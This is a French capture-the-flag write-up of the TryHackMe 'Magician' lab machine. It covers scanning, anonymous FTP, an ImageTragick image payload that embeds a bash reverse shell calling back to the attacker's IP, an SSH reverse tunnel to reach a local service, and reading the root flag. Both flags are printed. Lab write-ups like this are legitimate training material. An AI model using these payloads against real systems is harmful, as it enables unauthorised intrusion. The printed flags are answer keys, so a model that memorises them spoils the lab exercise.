


# Étape 1 : Énumération initiale
Ajoute l'IP à /etc/hosts pour résoudre magician :
```bash
echo "10.10.237.116 magician" | sudo tee -a /etc/hosts
```

Lance un scan complet :

```bash
 nmap -Pn -sT -A -T4 -p- 10.10.237.116
```

Résultat :
```bash
┌──(root㉿kali)-[~]
└─# nmap -Pn -sT -A -T4 -p- 10.81.140.186
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-20 20:36 +0100
Nmap scan report for 10.81.140.186
Host is up (0.030s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
8080/tcp open  http    Apache Tomcat (language: en)
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: magician
|_http-server-header: nginx/1.14.0 (Ubuntu)
```


Nmap indique 3 ports ouverts : 21, 8080 et 8081.

# Étape 2 : Exploitation FTP & Web (User shell)
Allons regarder le port 21 le port par défaut du protocole FTP.
On se connecte en anonymous sur le port 21 et on obtient un premier indice : 
```bash
┌──(root㉿kali)-[~]
└─# ftp 10.81.140.186
Connected to 10.81.140.186.
220 THE MAGIC DOOR
Name (10.81.140.186:kali): anonymous
331 Please specify the password.
Password: 
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
ftp>
```


On se connecte sur le site web port 8081 (http://magician:8081/) :


On se renseigne sur la vulnérabilité du site qui est Image Tragick CVE-2016–3717 https://imagetragick.com 


On ouvre notre listener netcat :
```
rlwrap -cAr nc -lvnp 1234
```

On va sur https://www.revshells.com/ et on génére notre reverse shell en Bash -i 
```bash
/bin/bash -i >& /dev/tcp/192.168.153.18/1234 0>&1
```


On créer un fichier image (vim reverse.png) que l'on va envoyer au serveur web.
Payload ImageTragick (reverse.png) :
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 '|/bin/bash -i >& /dev/tcp/192.168.153.18/1234 0>&1'
pop graphic-context
```

Le fichier a bien été convertis : 


On regarde notre netcat est on obtient bien notre reverse shell : 
```bash
┌──(root㉿kali)-[~]
└─# rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.153.18] from (UNKNOWN) [10.81.140.186] 46230
bash: cannot set terminal process group (1390): Inappropriate ioctl for device
bash: no job control in this shell
magician@magician:/tmp/hsperfdata_magician$ whoami
whoami
magician
magician@magician:/tmp/hsperfdata_magician$ 
```


Upgrade du shell vers un shell TTY complet :
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

 # Étape 3 : Découverte du port  magick 6666
 On regarde le home de magician (obtention du flag user) :
 
```bash
magician@magician:~$ cd /home/magician
cd /home/magician
magician@magician:~$ ls -latr
ls -latr
total 17204
-rw-r--r-- 1 magician magician      807 Apr  4  2018 .profile
-rw-r--r-- 1 magician magician     3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 magician magician      220 Apr  4  2018 .bash_logout
drwxr-xr-x 3 root     root         4096 Jan 30  2021 ..
drwx------ 2 magician magician     4096 Jan 30  2021 .cache
drwx------ 3 magician magician     4096 Jan 30  2021 .gnupg
-rw-r--r-- 1 magician magician        0 Jan 30  2021 .sudo_as_admin_successful
-rw-r--r-- 1 magician magician       24 Jan 30  2021 user.txt
-rw-r--r-- 1 root     root     17565546 Jan 30  2021 spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
-rw------- 1 magician magician     7546 Jan 31  2021 .viminfo
drwxr-xr-x 2 root     root         4096 Feb  5  2021 uploads
lrwxrwxrwx 1 magician magician        9 Feb  6  2021 .bash_history -> /dev/null
-rw-r--r-- 1 magician magician      170 Feb 13  2021 the_magic_continues
drwxr-xr-x 5 magician magician     4096 Feb 13  2021 .
magician@magician:~$ cat user.txt
cat user.txt
THM{simsalabim_hex_hex}
```

On obtient un premier indice en fouillant :
```bash
magician@magician:~$ ls
ls
spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
the_magic_continues
uploads
user.txt
magician@magician:~$ cat the_magic_continues
cat the_magic_continues
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
magician@magician:~$ ss -tunlp
ss -tunlp
Netid State   Recv-Q  Send-Q          Local Address:Port     Peer Address:Port                                                                                  
udp   UNCONN  0       0               127.0.0.53%lo:53            0.0.0.0:*                                                                                     
udp   UNCONN  0       0          10.81.140.186%ens5:68            0.0.0.0:*                                                                                     
tcp   LISTEN  0       128                   0.0.0.0:8081          0.0.0.0:*                                                                                     
tcp   LISTEN  0       128             127.0.0.53%lo:53            0.0.0.0:*                                                                                     
tcp   LISTEN  0       128                 127.0.0.1:6666          0.0.0.0:*                                                                                     
tcp   LISTEN  0       100                         *:8080                *:*      users:(("java",pid=1390,fd=25))                                                
tcp   LISTEN  0       32                          *:21                  *:*                                                                                     
magician@magician:~$ 
```

# Étape 4 : Reverse port forwarding SSH
A ce moment on veut rediriger le trafic du port 6666 de la machine cible pour pouvoir l'ouvrir sur notre machine kali dans le navigateur. On va donc configurer le tunneling SSH inverse (reverse port forwarding)

Sur ta machine hôte (Kali Linux), active le serveur SSH pour recevoir le connexion inverse :
```bash
systemctl start ssh
```

Sur la machine cible (magician) on configure le reverse tunnel :
```bash
ssh -R 6666:localhost:6666 [ton_user_hote]@[ton_ip_hote]
# Exemple 
ssh -R 8000:localhost:6666 kali@192.168.153.18
```

On arrive bien a se connecter sur notre machine kali :
```bash
magician@magician:~$ ssh -R 6666:localhost:6666 kali@192.168.153.18
ssh -R 6666:localhost:6666 kali@192.168.153.18
The authenticity of host '192.168.153.18 (192.168.153.18)' can't be established.
ECDSA key fingerprint is SHA256:pyaFZUWJqNUVv/PSzU/n8nRfDxe2U67RVBpBpg2MQ9I.
Are you sure you want to continue connecting (yes/no)? yes
yes
Warning: Permanently added '192.168.153.18' (ECDSA) to the list of known hosts.
kali@192.168.153.18's password: kali

Linux kali 6.18.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.18.5-1kali1 (2026-01-19) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
kali@kali:~$ 
```

# Étape 5 : Exploitation
On accède a http://localhost:8000/ et on observe une image troll :


On tape simple /root/root.txt dans le champs : 
 

On obtient la chaine de caractère encodé en base 64 : 
```bash
VEhNe21hZ2ljX21heV9tYWtlX21hbnlfbWVuX21hZH0K
```

On la décode et on obtient le flag root : 
```bash
kali@kali:~$ echo "VEhNe21hZ2ljX21heV9tYWtlX21hbnlfbWVuX21hZH0K" | base64 -d
echo "VEhNe21hZ2ljX21heV9tYWtlX21hbnlfbWVuX21hZH0K" | base64 -d
THM{magic_may_make_many_men_mad}
```

Flag root : THM{magic_may_make_many_men_mad}
